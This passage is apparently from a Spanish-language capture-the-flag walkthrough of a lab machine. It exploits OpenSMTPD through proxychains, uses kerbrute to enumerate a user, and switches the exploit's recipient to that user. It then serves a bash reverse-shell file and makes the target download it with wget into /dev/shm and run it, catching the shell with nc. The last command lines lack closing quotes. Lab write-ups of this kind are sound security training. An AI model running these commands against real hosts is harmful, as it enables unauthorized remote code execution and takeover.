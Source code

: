 1. Nos creamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. Lanzamos el script con proxychains

    ```bash
    proxychains -q python3 smtpd_exploit.py 10.241.251.113 25 'wget 10.10.14.29'
    ```


Aqui vemos que no funcciona. puede ser porque el usuario root de este servicio no existe. Recordamos que hemos encontrado un email.
Tratamos de modificar el recipient para cambiar el root por j.nakazawa. Como el puerto 88 esta abierto primero utilizamos kerbrute para saber
si el usuario j.nakazawa existe.

1. creamos un fichero de usuarios y pegamos el usuario j.nakasawa
1. enumeramos usuarios con kerbrute

    ```bash
    kerbrute userenum --dc 10.10.10.224 -d realcorp.htb users
    ```

vemos que el usuario es valido. En el exploit, cambiamos el `s.send(b'RCPT TO:<root>\r\n')` por `s.send(b'RCPT TO:<j.nakazawa@realcorp.htb>\r\n')` y lanzamos 
nuevamente el exploit. Vemos que tenemos un GET en nuestro servidor web lo que significa que podemos ejecutar comandos y que tenemos conectividad con esta
maquina.## Vuln exploit & Gaining Access {-}

### Ganando acceso con el exploit opensmtpd {-}

1. creamos un ficher index.html que contiene

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.29/443 0>&1
    ```

1. lanzamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. lanzamos el exploit desde proxychains

    ```bash
    proxychains -q python3 smtpd_exploit.py 10.241.251.113 25 'wget 10.10.14.29 -O /dev/shm/rev
    proxychains -q python3 smtpd_exploit.py 10.241.251.113 25 'bash /dev/shm/rev
    ```
